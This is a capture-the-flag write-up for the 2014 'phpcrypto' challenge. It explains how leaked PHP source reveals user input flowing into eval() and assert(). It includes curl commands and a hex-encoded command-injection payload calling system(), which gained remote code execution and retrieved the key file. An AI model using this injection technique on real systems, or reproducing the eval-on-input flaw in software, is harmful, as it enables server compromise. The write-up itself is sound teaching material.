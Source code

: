 # Ghost in the Shellcode 2014: phpcrypto

**Category:** Recon
**Points:** 100
**Description:**

> GitS Presents [PHPCrypto 0.000001](http://phpcrypto.2014.ghostintheshellcode.com/)

## Write-up

The HTML source code of the linked page contains the following:

```js
function encrypt()
{
  key = $("#key")[0].value;
  plaintexthex = toHex($("#plaintext")[0].value);
  function success(data) {$("#ciphertext")[0].value = $.parseJSON(data).returnValue;}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":plaintexthex}, success );
}

function decrypt()
{
  key = $("#key")[0].value;
  ciphertext = $("#ciphertext")[0].value;
  function success(data) {$("#plaintext")[0].value = toAscii($.parseJSON(data).returnValue);}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":ciphertext}, success );
}
```

So, for encoding and decoding, a POST request is made to `/crypto.php` with the name of the function (`customCrypto`), the entered key, and the hexadecimal representation of the input text (for encoding) or the ciphertext (for decoding).

There’s also this comment:

```js
/*
TODO: add support for "help" and "dump" functions
*/
```

When using the `dump` function, the server returns an HTML document containing the syntax-highlighted source code of [the PHP script](https://github.com/ctfs/write-ups/blob/master/ghost-in-the-shellcode-2014/phpcrypto/source.php):

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=dump' > source.html
```

In some cases [the `customCrypto` function](https://github.com/ctfs/write-ups/blob/af43d4f482f869c9c3ba5a0c0bd88e57adf0f39e/ghost-in-the-shellcode-2014/phpcrypto/source.php#L68-L130) ends up in a code path where [`assert()`](http://php.net/assert) is executed:

```php
assert("\$message = \"ERROR! xorKey is: \".strlen(\$xorKey).\" bytes long and the plaintext is: \".strlen($plaintext).\" bytes long.\";");
```

`assert` is like `eval`, except it terminates script execution if the result is `false`. To get there, we need to pass the string `'true'` as the value for the third argument (`$DEBUG`).

That is possible because of this code:

```php
$params = $_POST;
unset($params['function']);

$param_string='';
foreach($params as $key=>$param)
{
    $param = preg_replace('/[^A-Za-z0-9]/','',$param);
    $param_string.=(($param_string)?',':'')."'".$param."'";
}

if (isset($DEBUG) && $DEBUG == "true") { error_log($_POST['function']."($param_string);"); }
eval("echo ".$_POST['function']."($param_string);");
```

All we need to do is use `DEBUG=true` (or `x=true` — the key doesn’t really matter) as the third key/value pair in the POST data, not counting the `function` parameter. This enables remote code execution:

```bash
$ echo -n '").system("ls");//' | xxd -p # will be used as the value for `plaintexthex`
22292e73797374656d28226c7322293b2f2f

$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=customCrypto&key=a&plaintexthex=22292e73797374656d28226c7322293b2f2f&DEBUG=true'
crypto.php
index.php
jquery-1.8.0.min.js
key
{"errorMsg":"The key is: ; and the plaintext is: key","returnValue":"1912154842484f5e56131957481912001414"}
```

Aha! There’s a file named `key`. Let’s see what it says:

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/key
ThisWasAStupidTestKeyThatBecameARealBoy
```

## Other write-ups

* <http://tasteless.se/2014/01/gits-2014-phpcrypto-recon-100/>
